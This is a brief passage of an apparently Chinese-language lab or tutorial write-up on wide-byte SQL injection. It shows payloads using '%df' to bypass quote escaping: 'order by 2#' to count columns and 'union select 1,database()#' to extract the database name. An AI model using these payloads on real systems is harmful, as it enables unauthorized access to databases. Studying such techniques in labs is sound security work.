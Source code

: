 抓包后输入后没有报错，那么存在两列。

```sql
1%df' order by 2#
```

输入：

```sql
1%df' union select 1,database()#
```

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/pkc45.png)

这里就拿到了数据库名，剩余步骤就和其他sqli一样。